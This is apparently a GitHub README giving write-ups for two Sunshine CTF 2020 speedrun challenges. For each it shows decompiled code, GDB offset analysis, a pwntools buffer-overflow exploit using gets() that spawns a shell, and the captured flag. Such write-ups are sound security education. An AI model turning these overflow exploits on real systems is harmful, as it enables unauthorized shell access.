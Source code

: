 # Sunshine CTF 2020 Speedrun
This repo contains my solutions for the Sunshine CTF speedrun challenges. The binary files are provided by https://sunshinectf.org/.

## chall_00
---
The first step is to decompile the binary to understand how it works.

Ghidra outputs:
```c

void main(void)
{
  char local_48 [56];
  int local_10;
  int local_c;
  
  puts("This is the only one");
  gets(local_48);
  if (local_c == 0xfacade) {
    system("/bin/sh");
  }
  if (local_10 == 0xfacade) {
    system("/bin/sh");
  }
  return;
}
```

There are three variables initialized that we don't control the values of. If `local_c` or `local_10` somehow become equal to the constant `0xfacade`, we will gain shell access.

The man page for `gets` has this to say about it:
> GETS

> NAME

>        gets - get a string from standard input (DEPRECATED)

> SYNOPSIS

>        #include <stdio.h>

>        char *gets(char *s);

> DESCRIPTION

>        Never use this function.

>        gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).

A buffer overflow should be possible. We should be able to write enough characters into `gets` that it overflows into the memory reserved for `local_c` and `local_10`.

We can run the program with a very identifiable input of `AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ`, and then use a debugger to break immediately before the first comparison to see which letter is being compared with the `0xfacade` constant. This will show us how many throwaway characters we need before typing the constant.

GDB can be used for debugging. Disassembling the binary provides:
```assembly
(gdb) disassemble main
Dump of assembler code for function main:
   0x00005555555546ca <+0>:     push   %rbp
   0x00005555555546cb <+1>:     mov    %rsp,%rbp
   0x00005555555546ce <+4>:     sub    $0x40,%rsp
   0x00005555555546d2 <+8>:     lea    0xcb(%rip),%rdi        # 0x5555555547a4
   0x00005555555546d9 <+15>:    callq  0x555555554580 <puts@plt>
   0x00005555555546de <+20>:    lea    -0x40(%rbp),%rax
   0x00005555555546e2 <+24>:    mov    %rax,%rdi
   0x00005555555546e5 <+27>:    mov    $0x0,%eax
   0x00005555555546ea <+32>:    callq  0x5555555545a0 <gets@plt>
   0x00005555555546ef <+37>:    cmpl   $0xfacade,-0x4(%rbp)
   0x00005555555546f6 <+44>:    jne    0x555555554704 <main+58>
   0x00005555555546f8 <+46>:    lea    0xba(%rip),%rdi        # 0x5555555547b9
   0x00005555555546ff <+53>:    callq  0x555555554590 <system@plt>
   0x0000555555554704 <+58>:    cmpl   $0xfacade,-0x8(%rbp)
   0x000055555555470b <+65>:    jne    0x555555554719 <main+79>
   0x000055555555470d <+67>:    lea    0xa5(%rip),%rdi        # 0x5555555547b9
   0x0000555555554714 <+74>:    callq  0x555555554590 <system@plt>
   0x0000555555554719 <+79>:    nop
   0x000055555555471a <+80>:    leaveq
   0x000055555555471b <+81>:    retq
End of assembler dump.
```

Let's insert a breakpoint right before the comparison:
```assembly
(gdb) break *(main+58)
Breakpoint 1 at 0x555555554704
```

Re running the program, we can print the value being compared with `0xfacade` ($rbp - 0x4).
```
(gdb) r
Starting program: /mnt/c/Users/meraxes/dev/ctf/sunshinectf2020/chall_00
This is the only one
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Breakpoint 1, 0x0000555555554704 in main ()
(gdb) p (char*) $rbp - 0x4
$1 = 0x7fffffffe24c "PPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
```

This means that we would need to put the constant into our input as soon as the "P" starts in the string. It makes sense that this value would be at "P". Recall from the Ghidra output above, `local_48` is a `char` array with 56 members. This puts us at 56 bytes needed. `local_10` is an `int`, which requires 4 bytes of space. In total, we need 60 bytes before we reach the memory for `local_c`.  There are 60 character taking up 60 bytes in the letters A through O.

With all the information here, we can write a program to run the exploit end to end.

```python
#!/usr/bin/env python3

from pwn import *

context.binary = ELF('./chall_00')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30000)
else:
    io = process(context.binary.path)
    
print(io.recvline())

buffer = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO'
payload = p32(0xfacade)

io.sendline(flat(buffer, payload))
io.interactive()
```

Note that we needed to use a pack function on the constant to send. The binary was made on a little endian system, and the bytes need to be sent in reverse.

Running the program gives us shell access on Sunshine's server:
```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_00.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_00'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30000: Done
b'This is the only one\n'
Sending:  b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO\xde\xca\xfa\x00'
[*] Switching to interactive mode
$ ls
chall_00
flag.txt
$ cat flag.txt
sun{burn-it-down-6208bbc96c9ffce4}
$ 
```

## chall_01
---

Let's take a peek at the decompilation output:
```c
void main(void)

{
  char local_68 [64];
  char local_28 [24];
  int local_10;
  int local_c;
  
  puts("Long time ago, you called upon the tombstones");
  fgets(local_28,0x13,stdin);
  gets(local_68);
  if (local_c == 0xfacade) {
    system("/bin/sh");
  }
  if (local_10 == 0xfacade) {
    system("/bin/sh");
  }
  return;
}
```

This program is very similar to chall_00. The difference is that it takes two inputs now (the first being protected against buffer overflows). The inputs are read into two different `char` arrays. Since the second input is using `gets`, we can still perform the same attack as before. 

`gets` puts its value into `local_68`. That array has a size of 64 bytes. After filling it, we need to overwrite 24 more bytes to fill `local_28`. At this point we are at the memory reserved for `local_10`. The constant `0xfacade` can be written here in our input.

```python
#!/usr/bin/env python3

from pwn import *

context.binary = ELF('./chall_01')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30001)
else:
    io = process(context.binary.path)
print(io.recvline())

buffer = 'A' * 88
payload = p32(0xfacade)
exploit = flat(buffer, payload)

io.sendline('giveflagpls')
print("Sending: ", exploit)
io.sendline(exploit)

io.interactive()
```

Running our exploit:
```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_01.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_01'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30001: Done
b'Long time ago, you called upon the tombstones\n'
Sending:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xde\xca\xfa\x00'
[*] Switching to interactive mode
$ ls
chall_01
flag.txt
$ cat flag.txt
sun{eternal-rest-6a5ee49d943a053a}
$  
```